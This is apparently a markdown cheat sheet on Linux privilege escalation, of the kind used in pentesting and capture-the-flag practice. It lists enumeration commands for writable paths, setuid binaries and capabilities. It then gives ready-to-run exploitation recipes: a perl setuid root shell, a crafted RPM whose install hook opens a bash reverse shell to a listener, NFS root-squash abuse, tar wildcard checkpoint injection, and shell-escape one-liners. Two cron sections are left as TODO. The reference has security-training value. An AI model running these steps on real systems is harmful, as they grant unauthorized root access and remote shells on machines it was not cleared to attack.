# Linux Privilege Escalation

## Enumeration
___
### Files and folders
- Look for writable directories
```sh
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

- Look for writable directories in PATH
```sh
IFS=':'; read -a patharr <<< "$PATH"; for dir in ${patharr[@]}; do if [ -w $dir ]; then echo -e "$dir : WRITABLE"; fi; done;
```

- Look for writable files
```sh
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

- Look for group membership / special access
```sh
id
find / -type f -group group_name 2> /dev/null
```

- Look for scripts/binaries with setuid
```sh
find / -perm -u=s -type f 2>/dev/null
find / -perm /4000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /4000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Look for scripts/binaries with setgid
```sh
find / -perm /2000 2>/dev/null
IFS=$'\n'$'\r'; for item in $(find / -perm /2000 2>/dev/null); do if [ -w $item ]; then echo -e "$item : WRITABLE"; fi; done;
```

- Sneak into /var/log/audit
```sh
grep comm=\"su\" /var/log/audit/*
```

- Look for cap_setuid+ep
```sh
getcap -r / 2>/dev/null
# /usr/bin/perl = cap_setuid+ep
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

### Cron jobs
- Look for cron jobs executed as root
```
TODO
```

- Look for writable script/binaries from above cron jobs
```
TODO
```

### Binaries

- Look inside binaries for exploit possibilities
```
strings /path/to/binary
```
> If we find calls to an executable using relative path, we can create a malicious script using the binary name and update PATH to include the folder

## Exploitation
___

### YUM
- Get a reverse shell using crafted rpm package

If low priv user can run yum as root, we can craft a rpm package to get a reverse shell as root:
```sh
# Create a script with reverse shell commands
cat << EOF > root.sh
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
EOF

# Then use fpm docker image to build the rpm:
docker run --rm -v $(pwd):/data skandyla/fpm -n packagename -s dir -t rpm -a all --before-install /data/root.sh  -p /data /data
# Start an HTTP server and tcp listener
python -m SimpleHTTPServer 8000
nc -lnvp 4444
# On the target machine, install the rpm package:
sudo yum install http://0.0.0.0:8000/root-1.0-1.noarch.rpm
```

### NFS

- Exploit rootsquash
```sh
# Copy a bash binary to mounted NFS
cp bash /mount/point/to/nfs
# Set owner to root
sudo chown root /mount/point/to/nfs/bash
# Set uid on binary
chmod a+sx /mount/point/to/nfs/bash
# Run the binary in low privilege shell
./bash -p (in low privilege shell)
```

### Wildcard Injection

- Exploit tar with wildcard
```sh
# Example tar command: cd /folder; tar cf /backup.tgz *
# Exploit this with checkpoint injection:
cd /folder
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
# Wait for tar to run as root
```

### Shell escape sequence
| Tool | Escape Sequence |
| --- | --- |
| vi/vim | `:!/bin/bash`, `:set shell=/bin/bash:shell` |
| awk | `awk 'BEGIN {system(\"/bin/bash\")}'` |
| perl | `perl -e 'exec \"/bin/bash\";'` |
| find | `find / -exec /usr/bin/awk 'BEGIN {system(\"/bin/bash\")}' \\;` |
| nmap | `--interactive` |

## Links
___
### Guides
- https://book.hacktricks.xyz/linux-unix/privilege-escalation
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/wildcards-spare-tricks
- https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
- https://gtfobins.github.io/

### Writeups
- https://blog.tryhackme.com/skynet-writeup/
- https://s1gh.sh/tryhackme-wonderland/
